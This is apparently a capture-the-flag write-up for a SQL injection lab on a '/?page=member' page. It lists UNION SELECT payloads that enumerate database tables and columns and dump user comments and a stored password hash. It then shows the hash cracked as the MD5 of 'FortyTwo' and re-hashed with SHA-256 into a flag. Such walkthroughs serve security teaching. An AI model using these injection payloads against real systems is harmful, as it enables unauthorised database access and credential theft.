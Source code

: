 On: /?page=member

To get all tables with schema:
1 UNION SELECT TABLE_NAME, TABLE_SCHEMA FROM information_schema.tables

To get all tables with columns:
1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns

List users with commentaires:
1 UNION SELECT user_id, Commentaire FROM users
-> "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

Get the countersign for user 5:
1 UNION SELECT user_id, countersign FROM users
-> 5ff9d0165b4f92b14994e5c685cdce28 is the md5 for "FortyTwo"
-> Lowercase it: fortytwo
-> Sha256 on it: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
